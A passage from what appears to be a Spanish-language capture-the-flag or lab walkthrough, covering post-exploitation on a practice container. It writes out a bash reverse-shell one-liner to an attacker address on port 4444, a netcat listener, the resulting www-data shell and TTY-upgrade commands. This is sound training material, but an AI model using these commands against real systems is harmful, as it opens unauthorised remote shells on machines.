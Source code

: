 ```python
if __name__ == '__main__':
    main()
```

Lo ejecutamos. 

![[Screenshot 2025-06-08 at 19.34.57.png]]

y a continuación nos abrimos una netcat para crear una reverse shell que apunte a nuestra maquina y conseguir una mejor conexion con la maquina para que no este tan limitada la shell actual y trabajar mejor.

Ejecutamos el siguiente comando para crear un script con la reverse shell

```
>>>  echo "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1 " > /tmp/rev.sh  
>>> ls -l /tmp
total 20
-rw-rw-r-- 1 root     punky    335 May 11 06:21 elevacion.log
-rw-r--r-- 1 root     root     115 May 11 06:08 punky_log.txt
-rw-rw-r-- 1 root     punky    656 May 11 06:18 punky_output.log
-rw-r--r-- 1 www-data www-data  47 Jun  9 03:40 rev.sh
-rw-r--r-- 1 root     root     168 May 11 06:07 task_manager.log
>>> 
```

y ahora con netcat abrirmos para con el puerto 4444 a la escucha

`nc -nlvp 4444`

y ejecutamos el script

`bash /tmp/rev.sh`

y ya tenemos una shell mejor
```bash
nc -nlvp 4444
listening on [any] 4444 ...


connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 57340
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@7d1187c78f95:/usr/bin$ 
www-data@7d1187c78f95:/usr/bin$ 
www-data@7d1187c78f95:/usr/bin$ 
```

y por ultimo vamos a tratar un poco la tty

``` bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
